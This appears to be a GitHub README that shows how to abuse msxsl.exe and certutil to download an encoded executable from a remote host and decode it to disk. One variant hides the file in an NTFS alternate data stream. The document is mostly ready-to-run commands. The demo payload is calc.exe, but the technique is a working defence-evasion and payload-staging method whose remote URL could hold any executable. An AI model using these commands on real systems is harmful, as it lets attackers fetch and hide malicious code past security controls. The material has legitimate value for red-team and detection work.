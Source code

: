 # Use-msxsl-to-download-file

## Create payload and insert into the XSL file:
```
certutil -encode C:\Windows\System32\calc.exe calc_payload.txt
```

Now copy the certutil encoded payload from calc_payload.txt and insert into calc_xsl.xml between `<TEST> </TEST>`


## Use MSXSL to download XSL file with certutil encoded payload and save to file:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" > <filename>

certutil -decode <filename> calc.exe
```

## Use MSXSL to download XSL file with certutil encoded payload and save to ADS:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" > <filename>:<ADS name>

certutil -decode <filename>:<ADS name> calc.exe
```
